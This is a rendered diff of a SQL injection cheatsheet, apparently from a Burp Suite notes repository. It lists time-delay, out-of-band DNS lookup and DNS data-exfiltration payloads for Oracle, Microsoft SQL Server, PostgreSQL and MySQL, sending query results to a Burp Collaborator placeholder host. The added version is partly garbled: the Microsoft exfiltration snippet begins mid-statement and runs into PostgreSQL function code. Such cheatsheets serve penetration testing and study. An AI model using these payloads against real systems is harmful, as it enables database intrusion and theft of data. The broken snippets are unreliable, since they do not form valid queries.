

Before and after one commit to Dynjee/Burpsuite, a Markdown page: SQLi Injection/SQL cheatsheet #1.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/SQLi Injection/SQL cheatsheet #1.md
+++ b/SQLi Injection/SQL cheatsheet #1.md
@@ -175,66 +176,61 @@ MySQL
 ## Conditional Time Delays
 
 Oracle
-`SELECT CASE WHEN (condition) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
+`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
 
 Microsoft
-`IF (condition) WAITFOR DELAY '0:0:10'`
+`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
 
 PostgreSQL
-`SELECT CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END`
+`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
 
 MySQL
-`SELECT IF(condition,SLEEP(10),'a')`
+`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`
 
 ---
 
 ## DNS Lookup
+DNS Lookup
 
 Oracle
 
-SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [
+SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
 
-<!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR/"> %remote;]>'),'/l')
-
-FROM dual
-
+### technique works on fully patched Oracle installations, but requires elevated privileges:
 
 Microsoft
-`exec master..xp_dirtree '//BURP-COLLABORATOR/a'`
+`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
+exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
 
 PostgreSQL
-`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR'`
+`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
 
 MySQL (Windows only)
-`LOAD_FILE('\\\\BURP-COLLABORATOR\\a')`
+`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
+SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`
 
 ---
 
 ## DNS Lookup with Data Exfiltration
 
 Oracle
-
-SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [
-
-<!ENTITY % remote SYSTEM "http://'||(SELECT data)||'.BURP/"> %remote;]>'),'/l')
-
-FROM dual
+SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
 
 
 Microsoft
 
-DECLARE @p VARCHAR(1024);
-SET @p=(SELECT data);
-EXEC('master..xp_dirtree "//'+@p+'.BURP/a"')
-
+HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
+create OR replace function f() returns void as $$
+declare c text;
+declare p text;
+begin
 
 PostgreSQL
 
-CREATE OR REPLACE FUNCTION f() RETURNS void AS $$
-DECLARE c text;
-DECLARE p text;
-BEGIN
-SELECT INTO p (SELECT data);
-c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP''';
-EXECUTE c;
+c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
+execute c;
 END;
+$$ language plpgsql security definer;
+SELECT f();
```
Also changed, not shown: other parts of SQLi Injection/SQL cheatsheet #1.md (+12 -11 lines).
